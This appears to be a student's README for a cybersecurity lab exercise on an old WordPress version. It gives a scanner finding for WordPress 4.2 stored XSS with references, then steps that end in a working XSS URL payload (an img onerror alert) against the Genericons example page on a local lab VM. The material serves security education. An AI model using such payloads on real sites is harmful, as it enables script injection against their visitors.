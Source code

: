 # Cybersecurity_week7
<br />
<b>Task:</b> Exploat vulnerability of old version WordPress.
<br /><br />
<b>Vulnerability 1</b><br />
[!] Title: WordPress <= 4.2 - Unauthenticated Stored Cross-Site Scripting (XSS)<br />
    Reference: https://wpvulndb.com/vulnerabilities/7945<br />
    Reference: http://klikki.fi/adv/wordpress2.html<br />
    Reference: http://packetstormsecurity.com/files/131644/<br />
    Reference: https://www.exploit-db.com/exploits/36844/<br />
[i] Fixed in: 4.2.1<br />
<br />
  >Steps:<br />
  >  - login to http://wpdistillery.vm/ as admin with credential provided in config.yml<br />
  >  - Install and activate theme TwentyFifteen<br />
  >  - Install and activate Genericon'd Plugin<br />
  >  - Go to content/themes/twentyfifteen/genericons/example.html<br />
  >  - modify url to <br />
  >    http://wpdistillery.vm/wp-content/themes/twentyfifteen/genericons/example.html#1<img/ src=1 onerror=alert("HACKED")>sdf<br />

<b>GIF walkthrough:</b><br />
![genericonxss](https://user-images.githubusercontent.com/31838335/38178052-70db0200-35d8-11e8-9df4-840ce02b2451.gif)
